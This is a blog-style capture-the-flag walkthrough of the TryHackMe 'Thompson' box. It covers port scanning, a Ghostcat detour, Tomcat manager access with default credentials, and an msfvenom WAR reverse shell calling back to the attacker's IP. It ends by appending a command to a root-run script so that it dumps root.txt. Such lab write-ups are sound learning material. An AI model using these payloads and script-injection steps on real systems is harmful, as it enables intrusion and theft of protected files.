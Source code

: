 ```yaml
---
layout: post
title: "Thompson | THM "
date: 2021-11-26 11:50:00 -0000
categories: CTF THM
---
```

Just a simple boot to root box.

Lets start by navigating to the url.

Ok, I get an unable to connect to the server. Lets run nmap and see what we can find.

Nmap scan report for 10.10.203.251  
Host is up (0.17s latency).  
Not shown: 994 closed tcp ports (conn-refused)  
PORT     STATE    SERVICE  
22/tcp   open     ssh  
1272/tcp filtered cspmlockmgr  
5904/tcp filtered unknown  
8009/tcp open     ajp13  
8080/tcp open     http-proxy  
8649/tcp filtered unknown  

Nmap done: 1 IP address (1 host up) scanned in 96.05 seconds

Attempting to connect to 8080 and I get an SSL timeout error. Removing the HTTPs from the start of the url fixes this problem. (oops!)


If we do a little research, we can find that /manager/html has a login page.

Lets see if there are any other vulnerabilities for apache tomcat 8.5.5. Theres a python script that may work for rce. Tried it but it did not work.

Ok - lets take a step back and look at some of the other ports.I have never seen ajp before. AJP is used to allow efficient passing of binary
representations of the headers between the proxy server and the app server.

Doing some research there seems to be a vulnerability called ghostcat that may exploit this protocol.

Ok - watched a john hammond video on ghost cat vuln and found an ajp shooter that works. I can read files off of the site. Now, we just need to find the installation directory.

Couldn't find anything! Turns out i went down a rabbit hole. After i looked at a hint, lets go back to the manager login and try the default creds.

Remember folks, ALWAYS TRY THE DEFAULT CREDS.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

haha wow look im in.

There are a few different endpoints here and an ability to upload files/directories. There is a WAR file upload, lets see if we can exploit that.

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

tried to use metasploit but it did not work. Lets try to do it manually.

msfvenom -p java/shell_reverse_tcp lhost=10.6.10.177 lport=9999 -f war -o pwn.war

That worked! Time to upgrade shell
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

nice, now we can read user.txt. Lets try to escalate privs or move laterally. Theres an interesting file thats running that runs as root and dumps it into a text file.

So, a normal human being would use a text editor to edit the file. But, here we use echo. append the following command to cause the script to
read the root.txt located in the /root/root.txt directory.

echo -e 'echo -e $(cat /root/root.txt >> test.txt)' >> id.sh

yes, that is two echos. But it works! So after 2 hours and multiple wrong paths we have finished the box!

Thank you for following along with this adhd guide. 
